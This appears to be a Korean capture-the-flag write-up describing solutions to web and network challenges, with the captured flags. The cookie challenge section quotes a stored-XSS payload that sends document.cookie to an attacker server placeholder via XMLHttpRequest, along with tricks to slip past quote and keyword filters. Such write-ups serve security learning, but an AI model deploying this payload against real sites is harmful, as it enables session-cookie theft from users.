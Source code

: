 ### 2.WEB2 - image(?) (400p)
소스를 봤더니 이미지를 로드하고 막 나눠서 뿌린다.
뭔지 모르는 str 이라는 긴 값과 파일을 로드하는 함수가 있어서 콘솔에 str이라는 변수를 선언해서 값을 넣어주고, 이미지를 로드하는 함수를 굴리면 **이미지 파일의 경로가나온다.** 그래서 그 경로로 접속하면 FULL-FLAG가 나온다.

### 3.WEB3 - Cookie(?) (500p)
사실 이문제도 못풀었다. 막판에 힌트가 나왔는데 '쿠키' 가 힌트였다.
쿠키를 보니 `FLAG+IS+HERE%21%21` 라는 값을 가지는 flag 라는 쿠키가 있었고,
웹은 개시판이였다. XSS를 통해서 쿠키를 보면되겠다~~ 라고 생각을 했다. (그게 끝나기 15분 전이였다는건 함정)

그뒤에 풀이를 듣어보니


```
게시글을 올리고 바로 볼 수 있는데 XSS가 발생한다고 한다.
서버에 cookie.php를 올려두고 location.href= 어쩌고 할려고 했는데 location이 들어가면 XSS라면서 제대로 등록되지 않는다. XMLHttpRequest로 GET 리퀘스트를 보내는 방법으로 쿠키 탈취를 시도했는데 ', "가 필터링되어서 없어져 버린다.

x = String(/some-string/) // "/some-string/"
x = x.substring(1, x.length-1) // "some-string"
위와 같은 방법으로 정규식을 이용해서 필터링 bypass를 시도해봤는데 코드가 너무 길어져서 input error가 나온다.

function httpGet(e){
    var t = new XMLHttpRequest;
    return t.open(`GET`, e, !1), t.send(null), t.responseText
}
var u = `http://{server-addr}/cookie.php?c=`;
httpGet(u+document.cookie);
구글링을 열심히 해보니 `를 이용해서 문자열을 선언해도 JS에서는 제대로 인식한다는 것을 알 수 있었다.

대충 위와 같이 스크립트를 짜고(난독화 결과) 쓸데없는 공백과 개행을 없애고 포스팅했다.

스크립트가 제대로 들어간 것을 확인한 뒤 콘솔을 보니까 보안정책 어쩌고 나오길래 안되는 줄 알았다.

flag=Flag is Here!!
flag=Flag is Here!!
flag=w3_give_@dviCe_bUT_w3_CaNnoT_give_C0NdUct
```

라고 한다. -thanks to [junhoYeo](https://github.com/junhoyeo)


## Network(네트워크)

### 1.net1 - Findme (300p)
쉬운 문제였다. 그냥 wireshark 로 열고 **find string (packet byte)**로 해서 `flag{` 를 검색했더니 잘린듯한 패킷이 바로나왔다.
![](https://user-images.githubusercontent.com/24792377/47960782-5c411580-e043-11e8-868b-e1e7591c15a8.png)
이 패킷을 찾은 후 상단바에서 Analysis -> Follow -> TCP strem 에 가서 다시 `flag{`를 검색하면 플래그가 나온다.
![](https://user-images.githubusercontent.com/24792377/47960980-04f07480-e046-11e8-97d0-286f3cb76457.png)

FLAG IS : `flag{N3tw0rk_Ch@llenge_SOlv3d!_Congr@tz!!}`
